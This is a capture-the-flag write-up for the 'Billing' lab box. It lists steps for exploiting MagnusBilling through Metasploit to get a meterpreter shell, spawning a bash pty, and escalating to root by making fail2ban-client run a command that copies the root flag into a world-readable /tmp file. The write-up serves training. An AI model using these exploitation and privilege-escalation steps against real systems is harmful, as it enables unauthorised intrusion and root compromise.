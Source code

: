 # CTF Writeup: Billing

- Step 1: Enumeration nmap scan & displayed webpage --> MagnusBilling
- Step 2: Searched for CVE's or Metasploit Exploits --> Found Metasploit Exploit
- Step 3: opened metasploit with msfconsole -q and typed the command: "search magnus" --> found exploit
- Step 4: made "use 0", made "show options", selected RHOST = <target_ip>, selected LHOST (listener) as <machine_ip> after that made "run"
- Step 5: meterpreter got through --> made "shell" to create shell and made "python -c 'import pty;pty.spawn("/bin/bash")' to create python shell within target server
- Step 6: checked out which rights I have (no root) --> went to home/magnus and found user.txt flag
- Step 7: made sudo -l to check sudo right's and foundout that "asterisk" (root) can run the fail2ban-client without needing an password "NOPASSWD"
- Step 8: Researched what fail2ban-client is --> Open-Source Software and found an privilege escelation aswell and oriented myself to that.
- Step 9: made "sudo /usr/bin/fail2ban-client" status, to check which blocks are available --> sshd
- Step 10: made "sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban 
"/bin/bash -c 'cat /root/root.txt > /tmp/root.txt && chmod 777 /tmp/root.txt'"" --> This command saves the root flag within a temp file, but only if an ip address is getting banned.
- Step 11: made "sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1" to ban an ip address --> prompted out "1", so it was successful.
- Step 12: navigated to /tmp directory. made "ls" and found root.txt -> cat root.txt and finished it.

## Key Learnings

- Further Improved CVE Researching --> Found out that I can also look actively for
CVE's y using "search magnus" or "search cve:2023-1234"
- Further strengthened my linux cli knowledge, Learned about the command sudo -l, systemcdl. 
